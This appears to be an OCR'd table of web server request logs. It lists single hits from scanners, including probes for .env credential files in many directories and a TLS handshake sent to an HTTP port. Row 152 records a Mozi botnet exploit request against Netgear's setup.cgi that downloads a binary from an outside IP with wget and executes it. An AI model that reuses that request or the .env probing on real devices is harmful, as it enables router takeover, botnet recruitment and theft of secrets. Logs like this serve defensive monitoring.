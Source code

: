 | 147 |                     1 | GET /OdinHttpCall1737592672 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                   |
| 148 |                     1 | POST /sdk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
| 149 |                     1 | GET /odinhttpcall1737592672 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                   |
| 150 |                     1 | \x16\x03\x00\x00S\x01\x00\x00O\x03\x00?G\xD7\xF7\xBA,\xEE\xEA\xB2`~\xF3\x00\xFD\x82{\xB9\xD5\x96\xC8w\x9B\xE6\xC4\xDB<=\xDBo\xEF\x10n\x00\x00(\x00\x16\x00\x13\x00                                                                                                                                                                                                                                                     |
| 151 |                     1 | HELP                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 152 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.164.177.181:10220/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                          |
| 153 |                     1 | GET /ikiwiki/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
| 154 |                     1 | GET /sistema/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
| 155 |                     1 | GET /webroot/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
| 156 |                     1 | GET /2024/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                |
| 157 |                     1 | GET /lib64/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                               |
| 158 |                     1 | GET /var/backup/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
| 159 |                     1 | GET /examples/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                            |